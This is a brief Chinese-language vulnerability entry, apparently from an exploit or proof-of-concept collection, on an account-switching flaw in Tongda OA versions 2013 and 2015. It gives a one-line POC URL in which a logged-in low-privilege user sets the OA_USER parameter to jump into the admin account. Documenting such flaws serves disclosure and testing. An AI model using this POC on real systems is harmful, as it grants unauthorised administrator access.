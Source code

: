 ```yaml
---
title: "通达oa 任意账号跳转"
id: zhfly3335
---
```


# 通达oa 任意账号跳转

## 一、漏洞简介

需要登录

## 二、漏洞影响

2013、2015版本

## 三、复现过程

POC:

```
http://0-sec.org/interface/ugo.php?OA_USER=admin 
```

通过控制OA_USER参数进行任意⽤户的跳转，⽐如说你现在是个普通权限的⽤户，使用这个⻚面即可跳转到admin用户下面。